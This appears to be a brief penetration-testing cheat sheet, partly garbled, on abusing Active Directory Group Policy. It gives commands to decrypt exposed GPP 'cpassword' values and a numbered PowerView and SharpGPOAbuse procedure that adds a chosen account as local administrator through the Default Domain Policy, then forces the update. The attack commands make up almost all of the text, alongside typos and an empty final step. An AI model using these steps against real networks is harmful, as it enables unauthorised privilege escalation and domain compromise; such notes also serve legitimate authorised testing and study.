 Exposed cpassword
	cpassword is an AD component that allows admins to set passwords via group policy
	can possibly be found in SMB GPO shares
Decryption
```
gpp-decrypt <cpasswd>
```



Change Policy
```
# If you have GenericWrite over a policy, you can do this...

`./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"

# then Force an GPO update

`gpupdate /force`

# then Reauthenticate
```

If you do not have GenericWrite but are able to get it (ie DACL abuse, etc)...
```
#Windows

1. Upload PowerView.ps1 and it

	Import-Module .\PowerView.ps1
	.\PowerView.ps1

2. Get the Default Domain Polify (or whatever you are able to control)

	Get-GPO -Name "Default Domain Policy"

3. View Perms (bloodhound might have already tipped you that you can control it)

	Get-GPPermission -Guid <ID> -TargetType User -TargetName <user>

4. SharoGPOAbuse.exe

	.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <user> --GPOName "Default Domain Policy"

5. Force update

	gpupdate /force

6. Verify

```